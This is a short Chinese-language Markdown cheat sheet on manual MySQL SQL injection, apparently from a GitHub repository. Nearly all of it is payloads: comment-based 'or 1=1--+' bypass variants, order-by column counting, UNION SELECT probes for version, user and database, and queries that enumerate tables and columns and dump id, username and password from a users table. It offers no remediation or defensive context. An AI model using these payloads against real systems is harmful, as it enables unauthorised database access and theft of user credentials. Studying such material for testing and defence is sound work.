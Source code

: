 # SQL注入
1.**常用的注释payload**
```
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
 order by 10 --+ (二分法)
```

3. **联合查询**
UNION SELECT 联合查询，手工注入经典语句，作用是在后面通过UNION把我们的恶意注入语句接上去，带入数据库进行查询。因为字段数目是:3,那么正规的语句如下:
```
UNION SELECT 1,2,3 --+
```
4.**获取信息**
```
version()            #MySQL版本
user()               #数据库用户名
database()           #数据库名
@@datadir            #数据库路径
@@version_compile_os #操作系统版本
```
5.**获取表名**
```
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
6.**获取列名**
```
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
7.**获取字段**
```
UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
8.**总结**
```
order by –+ 判断字段数目
union select –+ 联合查询收集信息
UNION SELECT 1,2,database() –+ 查询当前数据库
UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata –+查询所有数据库
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() –+ 查询表名
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' –+ 查询列名
UNION SELECT 1,2,group_concat(id,username,password) from users –+ 查询字段值
```